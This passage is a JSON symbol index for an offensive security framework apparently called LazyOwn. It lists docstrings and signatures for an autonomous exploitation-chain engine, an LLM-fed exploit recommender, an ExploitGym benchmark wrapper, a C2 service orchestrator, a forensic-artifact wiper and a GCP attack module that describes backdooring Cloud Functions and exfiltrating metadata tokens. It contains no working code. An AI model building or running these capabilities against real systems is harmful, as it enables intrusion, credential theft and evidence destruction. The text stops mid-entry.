"macro", "line": 49, "name": "MQUEUE_NUM", "signature": "#define MQUEUE_NUM"}, {"kind": "macro", "line": 52, "name": "INBOUND", "signature": "#define INBOUND"}, {"kind": "macro", "line": 53, "name": "OUTBOUND", "signature": "#define OUTBOUND"}, {"kind": "macro", "line": 54, "name": "DESC_MAX", "signature": "#define DESC_MAX"}, {"kind": "macro", "line": 56, "name": "BUFFER", "signature": "#define BUFFER"}, {"kind": "macro", "line": 57, "name": "NAMELEN", "signature": "#define NAMELEN"}, {"kind": "macro", "line": 58, "name": "ERROR_PREFIX", "signature": "#define ERROR_PREFIX"}, {"kind": "macro", "line": 60, "name": "KEY_DESC_MAX_SIZE", "signature": "#define KEY_DESC_MAX_SIZE"}, {"kind": "macro", "line": 62, "name": "PREFIX_BUF_LEN", "signature": "#define PREFIX_BUF_LEN"}, {"kind": "macro", "line": 63, "name": "RCU_HEAD_LEN", "signature": "#define RCU_HEAD_LEN"}, {"kind": "macro", "line": 65, "name": "SPRAY_KEY_SIZE", "signature": "#define SPRAY_KEY_SIZE"}, {"kind": "macro", "line": 67, "name": "PHYSMAP_MASK", "signature": "#define PHYSMAP_MASK"}, {"kind": "macro", "line": 69, "name": "SPRAY_SIZE", "signature": "#define SPRAY_SIZE"}, {"kind": "macro", "line": 71, "name": "SPRAY_NB_ENTRIES", "signature": "#define SPRAY_NB_ENTRIES"}]}, {"doc": "Autonomous exploitation chain engine.  Orchestrates the full kill chain from recon through exploitation to post-exploitation in a single automated workflow. Implements a decision-tree based approach with fallback strategies when initial exploitation attempts fail.  Phases: 1. Service fingerprinting 2. Vulnerability mapping 3. Exploit selection and prioritization 4. Payload generation and delivery 5. Session verification 6. Post-exploitation automation", "id": "modules/exploit_chain.py", "kind": "module", "label": "exploit_chain.py", "language": "py", "sha256": "87e0d638bc089060", "symbol_count": 19, "symbols": [{"doc": "Fingerprinted service metadata.", "kind": "class", "line": 29, "name": "ServiceInfo", "signature": "class ServiceInfo"}, {"doc": "A vulnerability matched to a discovered service.", "kind": "class", "line": 41, "name": "VulnerabilityMatch", "signature": "class VulnerabilityMatch"}, {"doc": "Result of an exploitation attempt.", "kind": "class", "line": 54, "name": "ExploitResult", "signature": "class ExploitResult"}, {"doc": "Complete exploitation chain result.", "kind": "class", "line": 65, "name": "ChainResult", "signature": "class ChainResult"}, {"doc": "Compare two version strings.\n\nReturns -1 if a < b, 0 if equal, 1 if a > b.", "kind": "function", "line": 266, "name": "_compare_versions", "signature": "def _compare_versions(version_a, version_b)"}, {"doc": "Autonomous exploitation chain orchestrator.", "kind": "class", "line": 289, "name": "ExploitChain", "signature": "class ExploitChain"}, {"kind": "method", "line": 292, "name": "__init__", "signature": "def __init__(self, rhost, rport, lhost, lport, sessions_dir, nmap_xml_path)"}, {"doc": "Parse service information from all available nmap XML files.\n\nScans sessions/ for all scan_<rhost>*.nmap.xml and vulns_<rhost>*.nmap.xml\nfiles, parses them with ElementTree, and merges results deduplicating\nby port/protocol. Files with richer data (product+version) take priority.\n\nArgs:\n    nmap_output: Raw nmap output text or None to use XML files.\n\nReturns:\n    List of fingerprinted services.", "kind": "method", "line": 311, "name": "fingerprint_services", "signature": "def fingerprint_services(self, nmap_output)"}, {"doc": "Find all nmap XML files for the current rhost.", "kind": "method", "line": 331, "name": "_discover_xml_files", "signature": "def _discover_xml_files(self)"}, {"doc": "Parse all available nmap XML files and merge results.", "kind": "method", "line": 346, "name": "_parse_all_nmap_xml", "signature": "def _parse_all_nmap_xml(self)"}, {"doc": "Return True when new_svc has more information than existing.", "kind": "method", "line": 361, "name": "_is_richer", "signature": "def _is_richer(new_svc, existing)"}, {"doc": "Parse a single nmap XML file using ElementTree.\n\nArgs:\n    xml_path: Path to the .nmap.xml file.\n\nReturns:\n    List of ServiceInfo objects for open ports.", "kind": "method", "line": 367, "name": "_parse_single_xml", "signature": "def _parse_single_xml(self, xml_path)"}, {"doc": "Parse nmap grepable/text output.", "kind": "method", "line": 404, "name": "_parse_nmap_text", "signature": "def _parse_nmap_text(self, output)"}, {"doc": "Map discovered services to known vulnerabilities.\n\nReturns:\n    List of vulnerability matches sorted by severity.", "kind": "method", "line": 446, "name": "map_vulnerabilities", "signature": "def map_vulnerabilities(self)"}, {"doc": "Add a vulnerability match.", "kind": "method", "line": 485, "name": "_add_vuln", "signature": "def _add_vuln(self, service, sig, version)"}, {"doc": "Generate a prioritized exploitation plan.\n\nReturns:\n    Ordered list of exploitation steps with fallbacks.", "kind": "method", "line": 499, "name": "generate_exploit_plan", "signature": "def generate_exploit_plan(self)"}, {"doc": "Return recommended post-exploitation commands for the platform.\n\nArgs:\n    platform: Target OS platform (linux or windows).\n\nReturns:\n    List of post-exploitation command suggestions.", "kind": "method", "line": 519, "name": "get_post_exploit_commands", "signature": "def get_post_exploit_commands(self, platform)"}, {"doc": "Generate a structured exploitation chain report.\n\nReturns:\n    Complete report dictionary with all chain data.", "kind": "method", "line": 531, "name": "generate_report", "signature": "def generate_report(self)"}, {"doc": "Save the exploitation chain report to a file.\n\nArgs:\n    path: Output file path. Defaults to sessions/exploit_chain_{rhost}.json.\n\nReturns:\n    Path to the saved report.", "kind": "method", "line": 566, "name": "save_report", "signature": "def save_report(self, path)"}]}, {"doc": "AI-Powered Exploit Recommendation Engine for LazyOwn.  Queries NVD API for CVEs, matches against Exploit-DB, ranks exploits by reliability and impact, and auto-generates LazyOwn commands.  Integrates with WorldModel, module_registry, and lazyown_bridge.", "id": "modules/exploit_recommender.py", "kind": "module", "label": "exploit_recommender.py", "language": "py", "sha256": "7a3dc4eafe0b0f1f", "symbol_count": 16, "symbols": [{"kind": "class", "line": 37, "name": "ExploitMatch", "signature": "class ExploitMatch"}, {"doc": "Matches discovered services against known CVEs and available exploits.\n\nAttributes:\n    world_model: Reference to the campaign WorldModel.\n    exploitdb_index: In-memory cache of Exploit-DB CSV entries.\n    cve_cache: In-memory cache of NVD CVE lookups keyed by CVE ID.\n    sessions_dir: Directory for persisting recommendations.", "kind": "class", "line": 50, "name": "ExploitRecommender", "signature": "class ExploitRecommender"}, {"kind": "method", "line": 120, "name": "__init__", "signature": "def __init__(self, world_model)"}, {"kind": "method", "line": 129, "name": "set_world_model", "signature": "def set_world_model(self, world_model)"}, {"kind": "method", "line": 132, "name": "set_nvd_api_key", "signature": "def set_nvd_api_key(self, key)"}, {"kind": "method", "line": 135, "name": "_load_exploitdb", "signature": "def _load_exploitdb(self)"}, {"kind": "method", "line": 161, "name": "_extract_cve_ids", "signature": "def _extract_cve_ids(text)"}, {"kind": "method", "line": 165, "name": "_compare_versions", "signature": "def _compare_versions(version, max_vulnerable)"}, {"kind": "method", "line": 175, "name": "_query_nvd", "signature": "def _query_nvd(self, cve_id)"}, {"kind": "method", "line": 211, "name": "_try_nvd", "signature": "def _try_nvd(self, cve_id)"}, {"kind": "method", "line": 214, "name": "_generate_lazyown_commands", "signature": "def _generate_lazyown_commands(self, cve_id, service, host_ip)"}, {"doc": "Match discovered services against known CVEs with confidence scoring.\n\nArgs:\n    hosts: Optional dict of HostEntry objects. Uses world_model hosts if None.\n\nReturns:\n    List of ExploitMatch objects sorted by severity then confidence.", "kind": "method", "line": 244, "name": "match_services", "signature": "def match_services(self, hosts)"}, {"doc": "Return top-N recommended exploits as structured dicts for MCP/CLI.\n\nArgs:\n    hosts: Optional host dict override.\n    top_n: Maximum number of recommendations to return.\n\nReturns:\n    List of recommendation dicts with keys: cve, severity, confidence,\n    description, exploit_available, command, service, host, port.", "kind": "method", "line": 337, "name": "recommend", "signature": "def recommend(self, hosts, top_n)"}, {"doc": "Save recommendations to sessions/ for audit and replay.\n\nArgs:\n    matches: List of recommendation dicts from recommend().\n\nReturns:\n    Path to the written JSON file.", "kind": "method", "line": 370, "name": "persist_recommendations", "signature": "def persist_recommendations(self, matches)"}, {"doc": "Format recommendations as compact text for LLM context injection.\n\nArgs:\n    matches: List of recommendation dicts.\n    max_items: Maximum items to include in the context string.\n\nReturns:\n    A single string suitable for appending to an LLM system prompt.", "kind": "method", "line": 390, "name": "format_for_llm", "signature": "def format_for_llm(self, matches, max_items)"}, {"kind": "function", "line": 25, "name": "parse_version", "signature": "def parse_version(v)"}]}, {"doc": "ExploitGym integration — real-world vulnerability-to-exploit benchmark.  Wraps the sunblaze-ucb/exploitgym harness (controller, firewall, LLM proxy, Docker task images) as an adaptive external backend for LazyOwn. LazyOwn detects whether the ExploitGym environment is installed and ready; when it is not, it only prints readiness guidance instead of breaking.  Task results feed the existing Red Team Gym ELO/leaderboard system in :mod:`modules.redteam_gym` so captured flags grant operator progression.  The harness is dual-use and MUST be run only against the containerised, network-isolated task environments that ExploitGym ships, never against arbitrary or production infrastructure.", "id": "modules/exploitgym_gym.py", "kind": "module", "label": "exploitgym_gym.py", "language": "py", "sha256": "f5921c50d9883c03", "symbol_count": 20, "symbols": [{"doc": "Create the ExploitGym session and records directory if missing.", "kind": "function", "line": 56, "name": "_ensure_dir", "signature": "def _ensure_dir()"}, {"doc": "Resolve the ExploitGym repository root from config or the default.\n\nArgs:\n    params: LazyOwn payload dict, or ``None`` to use the default root.\n\nReturns:\n    Absolute path to the ExploitGym checkout.", "kind": "function", "line": 61, "name": "_resolve_root", "signature": "def _resolve_root(params)"}, {"doc": "Read and clean the task id list from the ExploitGym data dir.\n\nArgs:\n    root: ExploitGym repository root.\n\nReturns:\n    List of task identifiers, blank lines and comments removed.", "kind": "function", "line": 75, "name": "_read_task_ids", "signature": "def _read_task_ids(root)"}, {"doc": "Heuristically assign a domain to a task id.\n\nArgs:\n    task_id: ExploitGym task identifier.\n\nReturns:\n    One of ``userspace``, ``v8``, ``kernel`` or ``unknown``.", "kind": "function", "line": 96, "name": "_detect_domain", "signature": "def _detect_domain(task_id)"}, {"doc": "Report whether the ExploitGym harness can run.\n\nDetects the presence of the required external toolchain and secrets\nwithout installing anything. Used by the adaptive wrapper so LazyOwn\ndegrades gracefully when ExploitGym is not set up.\n\nArgs:\n    params: LazyOwn payload dict used to resolve paths and API keys.\n\nReturns:\n    Dict with a boolean ``ready`` flag plus per-item availability.", "kind": "function", "line": 112, "name": "check_readiness", "signature": "def check_readiness(params)"}, {"doc": "List available ExploitGym tasks, optionally filtered by domain.\n\nArgs:\n    params: LazyOwn payload dict used to resolve the repo root.\n    domain: Optional domain filter (``userspace``, ``v8``, ``kernel``).\n    limit: Maximum number of tasks to return.\n\nReturns:\n    List of dicts with ``id`` and ``domain`` keys.", "kind": "function", "line": 178, "name": "list_tasks", "signature": "def list_tasks(params, domain, limit)"}, {"doc": "Run a command streaming stdout live to the console.\n\nArgs:\n    cmd: Command argv to execute.\n    cwd: Working directory for the subprocess.\n    timeout: Maximum seconds before aborting.\n\nReturns:\n    The subprocess return code.", "kind": "function", "line": 206, "name": "_run_streaming", "signature": "def _run_streaming(cmd, cwd, timeout)"}, {"doc": "Clone the ExploitGym repository when it is not present.\n\nArgs:\n    root: Target checkout directory.\n    timeout: Maximum seconds for the clone.\n\nReturns:\n    ``True`` if the repo is present (or was cloned) afterwards.", "kind": "function", "line": 232, "name": "_ensure_clone", "signature": "def _ensure_clone(root, timeout)"}, {"doc": "Automate ExploitGym installation (clone, deps, data, firewall, images).\n\nRuns the full setup so the operator never has to copy manual commands:\n``clone``, ``deps`` (uv sync), ``data`` (setup_data.sh), ``validate``,\n``squid`` (docker pull the firewall image), and ``images`` (pull a sample\ntask image set). Each step streams its output live.\n\nArgs:\n    params: LazyOwn payload dict used to resolve the repo root.\n    steps: Subset of :data:`SETUP_STEPS` to run; default runs all.\n\nReturns:\n    Dict with ``success``, ``root``, and a per-step ``results`` mapping\n    of step name to return code (``-1`` when skipped).", "kind": "function", "line": 249, "name": "setup_harness", "signature": "def setup_harness(params, steps)"}, {"doc": "Build the environment for running ExploitGym agents.\n\nMerges the current environment with the controller secrets and LLM API\nkeys read from config so the subprocess can mint task tokens.\n\nArgs:\n    params: LazyOwn payload dict with ExploitGym secrets.\n\nReturns:\n    Environment dict suitable for :func:`subprocess.run`.", "kind": "function", "line": 315, "name": "_env_for_run", "signature": "def _env_for_run(params)"}, {"doc": "Pull the Docker image required by a task.\n\nArgs:\n    task_id: ExploitGym task identifier.\n    params: LazyOwn payload dict used to resolve the repo root.\n    timeout: Maximum seconds to wait for the image pull.\n\nReturns:\n    Dict with ``success`` flag, ``task``, and ``output`` or ``error``.", "kind": "function", "line": 344, "name": "pull_task", "signature": "def pull_task(task_id, params, timeout)"}, {"doc": "Invoke the ExploitGym agent runner for a task.\n\nArgs:\n    task_id: Task to run against.\n    model: LLM model identifier to use.\n    mitigations: Whether system defenses (ASLR, canaries) stay enabled.\n    root: ExploitGym repo root.\n    params: LazyOwn payload dict for secrets.\n    timeout: Maximum seconds for the run.\n\nReturns:\n    The completed subprocess object.", "kind": "function", "line": 378, "name": "_run_agent", "signature": "def _run_agent(task_id, model, mitigations, root, params, timeout)"}, {"doc": "Run the agent against an ExploitGym task and capture the outcome.\n\nWrites the full harness output to ``sessions/exploitgym/<task>.log`` and\nrecords the attempt metadata to ``records.json`` for later scoring.\n\nArgs:\n    task_id: ExploitGym task identifier.\n    params: LazyOwn payload dict (secrets, model default, repo root).\n    model: LLM model to use; falls back to ``exploitgym_model`` config.\n    mitigations: Keep system defenses enabled (default ``True``).\n    timeout: Maximum seconds for the run.\n\nReturns:\n    Dict with ``success``, ``task``, ``log_path``, ``flag`` (when found),\n    ``elapsed_seconds``, and ``output`` or ``error``.", "kind": "function", "line": 423, "name": "run_task", "signature": "def run_task(task_id, params, model, mitigations, timeout)"}, {"doc": "Extract a captured flag from harness output.\n\nArgs:\n    output: Combined stdout/stderr of an agent run.\n\nReturns:\n    The captured flag value, or ``None`` when none is found.", "kind": "function", "line": 487, "name": "_extract_flag", "signature": "def _extract_flag(output)"}, {"doc": "Load the persisted ExploitGym attempt records.\n\nReturns:\n    Dict keyed by task id with per-run metadata.", "kind": "function", "line": 500, "name": "_load_records", "signature": "def _load_records()"}, {"doc": "Persist the ExploitGym attempt records to disk.\n\nArgs:\n    records: Dict keyed by task id.", "kind": "function", "line": 514, "name": "_save_records", "signature": "def _save_records(records)"}, {"doc": "Append an attempt to the persistent records file.\n\nArgs:\n    task_id: Task identifier.\n    success: Whether the run exited cleanly.\n    elapsed: Run duration in seconds.\n    flag: Captured flag, if any.", "kind": "function", "line": 523, "name": "_record", "signature": "def _record(task_id, success, elapsed, flag)"}, {"doc": "Verify whether a task flag was captured from a previous run.\n\nArgs:\n    task_id: Task identifier.\n    params: LazyOwn payload dict (unused but kept for interface parity).\n\nReturns:\n    Dict with ``verified``, ``task``, and ``flag`` or ``error``.", "kind": "function", "line": 548, "name": "verify_flag", "signature": "def verify_flag(task_id, params)"}, {"doc": "Award Red Team Gym ELO and leaderboard points for a task outcome.\n\nReuses the scoring pipeline in :mod:`modules.redteam_gym` so ExploitGym\nresults grant operator progression through the same karma system.\n\nArgs:\n    task_id: Task identifier used as the leaderboard challenge id.\n    success: Whether the flag was captured.\n    techniques: Technique identifiers used during the run.\n    params: LazyOwn payload dict (unused but kept for interface parity).\n\nReturns:\n    Dict from :func:`modules.redteam_gym.record_external_attempt`.", "kind": "function", "line": 565, "name": "score_task", "signature": "def score_task(task_id, success, techniques, params)"}, {"kind": "function", "line": 274, "name": "_run", "signature": "def _run(name, cmd, cwd, timeout)"}]}, {"doc": "fast_run_service.sh  LazyOwn service-mode orchestrator. Boots the framework's long-running components (C2 server, HTTP file server, VPN tunnel, optional bots and tunnels) as detached background processes for MCP and single-instance deployments where no operator tmux session is available.  Lifecycle: start | stop | restart | status | logs <name> | chown-now.  Differs from fast_run_as_r00t.sh in that it does not allocate tmux panes, does not invoke interactive workflow commands (lazynmap / auto-loop / createcredentials), and is safe to run from systemd, OpenRC, supervisord, or a Claude MCP server.", "id": "modules/fast_run_service.sh", "kind": "module", "label": "fast_run_service.sh", "language": "sh", "sha256": "bd28ac68691f6123", "symbol_count": 39, "symbols": [{"doc": "# # Logging primitives. Single-responsibility wrappers around printf so all # log lines share a uniform ISO-8601 timestamp prefix. #", "kind": "function", "line": 69, "name": "log_timestamp"}, {"kind": "function", "line": 73, "name": "log_info"}, {"kind": "function", "line": 77, "name": "log_warn"}, {"kind": "function", "line": 81, "name": "log_error"}, {"doc": "# # Pre-flight checks. Each function performs one verification and returns # non-zero on failure so the caller can decide how to surface it. #", "kind": "function", "line": 89, "name": "require_root"}, {"kind": "function", "line": 97, "name": "require_deps"}, {"kind": "function", "line": 113, "name": "require_paths"}, {"kind": "function", "line": 126, "name": "prepare_runtime_dirs"}, {"kind": "function", "line": 139, "name": "load_config"}, {"kind": "function", "line": 155, "name": "config_truthy"}, {"doc": "# # PID-file primitives. Encapsulate the per-service filesystem contract so # lifecycle commands never touch paths directly. #", "kind": "function", "line": 166, "name": "pid_file_for"}, {"kind": "function", "line": 171, "name": "log_file_for"}, {"kind": "function", "line": 176, "name": "read_pid_value"}, {"kind": "function", "line": 189, "name": "is_pid_alive"}, {"kind": "function", "line": 194, "name": "is_service_running"}, {"kind": "function", "line": 201, "name": "write_pid_file"}, {"kind": "function", "line": 211, "name": "ensure_log_file"}, {"doc": "# # Process spawn primitives. One pair of helpers covers every service: # spawn_as_target_user for unprivileged components, spawn_as_root for # components that need root (e.g. VPN tun device). #", "kind": "function", "line": 228, "name": "spawn_as_target_user"}, {"kind": "function", "line": 247, "name": "spawn_as_root"}, {"kind": "function", "line": 264, "name": "terminate_pid_tree"}, {"kind": "function", "line": 292, "name": "stop_named_service"}, {"doc": "# # Ownership maintenance. Both an on-demand restore and a background loop # tied to the chown_watcher pseudo-service so root-owned writes from any # service never leave files the operator user cannot read. #", "kind": "function", "line": 310, "name": "chown_project_tree"}, {"kind": "function", "line": 315, "name": "start_chown_watcher"}, {"doc": "# # Concrete service launchers. Each function knows how to start exactly one # component and decides whether it should run based on payload.json flags. #", "kind": "function", "line": 342, "name": "start_lazyc2_service"}, {"kind": "function", "line": 356, "name": "start_www_service"}, {"kind": "function", "line": 363, "name": "start_vpn_service"}, {"kind": "function", "line": 380, "name": "start_discord_service"}, {"kind": "function", "line": 390, "name": "start_telegram_service"}, {"kind": "function", "line": 400, "name": "start_cloudflare_service"}, {"kind": "function", "line": 410, "name": "start_ollama_service"}, {"doc": "# # Service registry. The single ordered list of services this script owns. # Startup order matches this array; shutdown order is its reverse. #", "kind": "function", "line": 429, "name": "managed_services_in_order"}, {"doc": "# # Lifecycle commands. These are the only entry points called from main(). #", "kind": "function", "line": 445, "name": "cmd_start"}, {"kind": "function", "line": 465, "name": "cmd_stop"}, {"kind": "function", "line": 480, "name": "cmd_restart"}, {"kind": "function", "line": 486, "name": "cmd_status"}, {"kind": "function", "line": 505, "name": "cmd_logs"}, {"kind": "function", "line": 521, "name": "cmd_chown_now"}, {"kind": "function", "line": 528, "name": "usage"}, {"doc": "# # Entry point. require_root re-executes under sudo and never returns there; # the case-arm dispatch is reached only when we are already root. #", "kind": "function", "line": 557, "name": "main"}]}, {"doc": "Finding confirmation lifecycle: pending -> confirmed / rejected.  Faithful to the CAIRN discipline (seed-add, seed validation, dead-end suppression list): a finding only becomes intel once it carries linked evidence. Anything else stays pending; disproven leads go to the dead-end list with a labeled reason instead of being silently dropped.  - explicit states persist in ``sessions/finding_lifecycle.json``; - ``resolve()`` layers explicit state over the automatic rule (2+ independent corroborating sources auto-confirm, like CAIRN's multi-signal confirmation), explicit reject always wins; - the campaign funnel counts only confirmed findings at its narrow end.  Stdlib only.", "id": "modules/finding_lifecycle.py", "kind": "module", "label": "finding_lifecycle.py", "language": "py", "sha256": "09cddf0ed2ecd2a6", "symbol_count": 26, "symbols": [{"doc": "Return the lifecycle store path for a sessions directory.", "kind": "function", "line": 35, "name": "_store_path", "signature": "def _store_path(sessions_dir)"}, {"doc": "Load the store, tolerating missing or corrupt files.", "kind": "function", "line": 40, "name": "_load", "signature": "def _load(sessions_dir)"}, {"doc": "Persist the store best-effort.", "kind": "function", "line": 53, "name": "_save", "signature": "def _save(sessions_dir, data)"}, {"doc": "Mark a finding confirmed with linked evidence (CAIRN seed-add).\n\nEvidence mentioning a CVE id is auto-enriched with keyless OSINT\n(OSV advisory, CISA KEV, EPSS score); enrichment never fails the call.", "kind": "function", "line": 61, "name": "confirm", "signature": "def confirm(finding_id, evidence, sessions_dir, by)"}, {"doc": "Mark a finding rejected (disproven lead, CAIRN dead-end discipline).", "kind": "function", "line": 90, "name": "reject", "signature": "def reject(finding_id, reason, sessions_dir, by)"}, {"doc": "Suppress a value campaign-wide with a labeled reason (dead_end_hashes).", "kind": "function", "line": 104, "name": "add_dead_end", "signature": "def add_dead_end(kind, value, reason, sessions_dir)"}, {"doc": "Return True when a kind/value pair sits on the suppression list.", "kind": "function", "line": 116, "name": "is_dead_end", "signature": "def is_dead_end(kind, value, sessions_dir)"}, {"doc": "Return every suppressed value for text-level filtering by the loop.", "kind": "function", "line": 123, "name": "suppressed_values", "signature": "def suppressed_values(sessions_dir)"}, {"doc": "Resolve a finding node's confirmation state.\n\nPrecedence: dead-end list and explicit reject beat everything;\nexplicit confirm beats the automatic multi-source rule; otherwise\n2+ independent sources auto-confirm, single-source stays pending.\nNon-finding nodes always resolve to pending.", "kind": "function", "line": 129, "name": "resolve", "signature": "def resolve(node, sessions_dir)"}, {"doc": "Stamp ``confirmation``/``status`` on every finding node in place.", "kind": "function", "line": 154, "name": "apply_confirmation", "signature": "def apply_confirmation(nodes, sessions_dir)"}, {"doc": "One campaign finding as stored on a vuln row.", "kind": "class", "line": 182, "name": "FindingRecord", "signature": "class FindingRecord"}, {"doc": "One retest request/attempt for a finding.", "kind": "class", "line": 195, "name": "RetestRecord", "signature": "class RetestRecord"}, {"doc": "Read a ``prefix:value`` token from a refs string.", "kind": "function", "line": 205, "name": "_token_value", "signature": "def _token_value(refs, prefix, default)"}, {"doc": "Replace or append a ``prefix:value`` token in a refs string.", "kind": "function", "line": 213, "name": "_with_token", "signature": "def _with_token(refs, prefix, value)"}, {"doc": "Build a FindingRecord from one vuln_list row.", "kind": "function", "line": 220, "name": "_finding_from_row", "signature": "def _finding_from_row(row)"}, {"doc": "Record a campaign finding on the DB for one host.\n\nArgs:\n    db: Open :class:`modules.db.LazyOwnDB`.\n    workspace: Workspace id the host belongs to.\n    host: Host address (created on first use).\n    title: Finding name.\n    severity: Severity label.\n    summary: Short description.\n    poc: Optional proof-of-concept text appended to the description.\n\nReturns:\n    The stored :class:`FindingRecord` with its ``finding_id``.", "kind": "function", "line": 234, "name": "record", "signature": "def record(db, workspace, host, title, severity, summary, poc)"}, {"doc": "List campaign findings with parsed status markers.", "kind": "function", "line": 259, "name": "findings_for", "signature": "def findings_for(db, workspace)"}, {"doc": "Set the lifecycle status marker on one finding.\n\nArgs:\n    db: Open campaign DB.\n    finding_id: Vuln row id (string form).\n    status: One of :data:`FINDING_STATUSES`.\n\nReturns:\n    True when the row existed and was updated.\n\nRaises:\n    ValueError: Unknown status.", "kind": "function", "line": 264, "name": "set_status", "signature": "def set_status(db, finding_id, status)"}, {"doc": "Return the retest store path for a sessions directory.", "kind": "function", "line": 287, "name": "_retests_path", "signature": "def _retests_path(sessions_dir)"}, {"doc": "Load the retest payload, tolerating a missing or corrupt file.", "kind": "function", "line": 292, "name": "_load_retests", "signature": "def _load_retests(sessions_dir)"}, {"doc": "Persist the retest payload.", "kind": "function", "line": 303, "name": "_save_retests", "signature": "def _save_retests(sessions_dir, payload)"}, {"doc": "Return True while a retest for the finding is still running.", "kind": "function", "line": 310, "name": "has_running_retest", "signature": "def has_running_retest(finding_id, sessions_dir)"}, {"doc": "Queue a retest; an already-running one is returned unchanged.", "kind": "function", "line": 318, "name": "request_retest", "signature": "def request_retest(db, finding_id, sessions_dir)"}, {"doc": "Close a retest, bump the evidence version and apply the verdict.\n\nArgs:\n    db: Open campaign DB.\n    retest_id: Retest to close.\n    conclusion: One of :data:`RETEST_CONCLUSIONS`.\n    evidence: Optional retest output/evidence snippet.\n    sessions_dir: Sessions directory holding the retest store.\n\nReturns:\n    The resolved :class:`RetestRecord`.\n\nRaises:\n    ValueError: Unknown conclusion.\n    KeyError: Unknown retest id.", "kind": "function", "line": 338, "name": "resolve_retest", "signature": "def resolve_retest(db, retest_id, conclusion, evidence, sessions_dir)"}, {"doc": "Map retest output onto reproducible / fixed / inconclusive.\n\nA vanished service or an explicit patch report means fixed; the\noriginal marker still present means reproducible; everything else\n(including errors and unrelated banners) stays inconclusive.", "kind": "function", "line": 384, "name": "classify_retest", "signature": "def classify_retest(needle, output)"}, {"doc": "Render campaign findings as a markdown report.", "kind": "function", "line": 403, "name": "render_markdown", "signature": "def render_markdown(db, workspace, title)"}]}, {"doc": "Forensic artifact cleaner — Prefetch, Shimcache, Amcache, MFT/USN cleanup.  Removes evidence of execution from Windows forensic artifacts: Prefetch files (.pf), Shimcache (AppCompatCache), Amcache registry entries, MFT records, USN journal entries, Jump Lists, LNK files, and Recent documents. Covers both automated cleanup and manual operator-guided forensic wiping.  Linux/macOS equivalents cover bash history, syslog entries, atime modification, and unified log pruning.", "id": "modules/forensic_cleaner.py", "kind": "module", "label": "forensic_cleaner.py", "language": "py", "sha256": "2ebdc0b0306c0324", "symbol_count": 8, "symbols": [{"doc": "Configuration for forensic artifact cleaning.\n\nAttributes:\n    target_platform: windows, linux, or macos.\n    clean_prefetch: Remove Windows Prefetch files (.pf).\n    clean_shimcache: Clear Windows Shimcache (AppCompatCache).\n    clean_amcache: Clear Windows Amcache registry entries.\n    clean_usn_journal: Purge Windows USN journal.\n    clean_jump_lists: Remove Windows Jump Lists.\n    clean_recent_files: Clear Recent files and MRU lists.\n    clean_shellbags: Clear Windows Shellbags (explorer paths).\n    clean_lnk_files: Remove LNK shortcut files in Recent dirs.\n    clean_mru: Clear Most Recently Used (MRU) registry entries.\n    clean_thumbnail_cache: Remove thumbnail cache files.\n    clean_mft_records: Overwrite deleted MFT records (requires defrag + sdelete).\n    verify: Run verification checks after cleaning.", "kind": "class", "line": 23, "name": "ForensicCleanerConfig", "signature": "class ForensicCleanerConfig"}, {"doc": "Generate artifact removal commands for Windows, Linux, and macOS.\n\nEach method produces platform-native commands that can be executed\ndirectly on the target or wrapped in a C2 command dispatch.\n\nAttributes:\n    config: ForensicCleanerConfig for target and artifact selection.", "kind": "class", "line": 57, "name": "ForensicCleaner", "signature": "class ForensicCleaner"}, {"kind": "method", "line": 67, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Generate Windows forensic artifact cleanup commands.\n\nReturns:\n    Dict with PowerShell/batch commands organized by artifact type.", "kind": "method", "line": 70, "name": "windows_cleanup", "signature": "def windows_cleanup(self)"}, {"doc": "Generate Linux forensic artifact cleanup commands.\n\nReturns:\n    Dict with bash commands for shell history, log cleanup,\n    and filesystem timestamp manipulation.", "kind": "method", "line": 165, "name": "linux_cleanup", "signature": "def linux_cleanup(self)"}, {"doc": "Generate macOS forensic artifact cleanup commands.\n\nReturns:\n    Dict with zsh commands for macOS-specific artifacts.", "kind": "method", "line": 193, "name": "macos_cleanup", "signature": "def macos_cleanup(self)"}, {"doc": "Parse Prefetch files to identify what the attacker should clean.\n\nArgs:\n    prefetch_path: Directory containing .pf files.\n\nReturns:\n    Dict with Prefetch analysis commands.", "kind": "method", "line": 221, "name": "windows_prefetch_parse", "signature": "def windows_prefetch_parse(self, prefetch_path)"}, {"doc": "Parse Amcache registry entries for evidence of execution.\n\nReturns:\n    Dict with Amcache parsing commands.", "kind": "method", "line": 259, "name": "amcache_parse", "signature": "def amcache_parse(self)"}]}, {"doc": "GCP privilege escalation — service account impersonation, Cloud Functions, GCS enumeration.  Provides attack primitives for Google Cloud Platform: service account IAM abuse, Cloud Functions backdoor insertion, Compute Engine metadata exfiltration, Cloud Storage bucket enumeration, and organization-level privilege escalation across GCP projects.  Uses google-cloud-* libraries when available; provides raw REST API commands.", "id": "modules/gcp_attacks.py", "kind": "module", "label": "gcp_attacks.py", "language": "py", "sha256": "0862ab6e13494745", "symbol_count": 11, "symbols": [{"doc": "Configuration for GCP attack operations.\n\nAttributes:\n    project_id: GCP project ID.\n    organization_id: GCP organization ID.\n    service_account_email: Target service account.\n    access_token: OAuth2 access token.\n    zone: GCP compute zone.\n    region: GCP region.", "kind": "class", "line": 57, "name": "GCPConfig", "signature": "class GCPConfig"}, {"doc": "Execute GCP privilege escalation and enumeration attacks.\n\nImplements service account impersonation, Cloud Functions backdoors,\nGCS bucket enumeration, Compute Engine metadata exfiltration, and\norganization-level escalation paths.\n\nAttributes:\n    config: GCPConfig with project and credentials.", "kind": "class", "line": 77, "name": "GCPAttackEngine", "signature": "class GCPAttackEngine"}, {"kind": "method", "line": 90, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Enumerate IAM policies for projects, folders, or organizations.\n\nArgs:\n    resource: Resource path (e.g., projects/PROJECT_ID).\n\nReturns:\n    Dict with IAM enumeration commands and bindings.", "kind": "method", "line": 93, "name": "enumerate_iam_policy", "signature": "def enumerate_iam_policy(self, resource)"}, {"doc": "Exploit service account impersonation for privilege escalation.\n\nUsers with iam.serviceAccounts.actAs can impersonate any service\naccount and obtain its permissions.\n\nReturns:\n    Dict with impersonation commands and OAuth token generation.", "kind": "method", "line": 119, "name": "service_account_impersonation", "signature": "def service_account_impersonation(self)"}, {"doc": "Backdoor Cloud Functions for privilege escalation.\n\nModifies a Cloud Function's code to exfiltrate its attached service\naccount's access token by querying the metadata server.\n\nReturns:\n    Dict with Cloud Function backdooring commands.", "kind": "method", "line": 144, "name": "cloud_functions_backdoor", "signature": "def cloud_functions_backdoor(self)"}, {"doc": "Exfiltrate GCE instance metadata and service account tokens.\n\nGCE instances expose metadata via a local HTTP endpoint. This includes\nservice 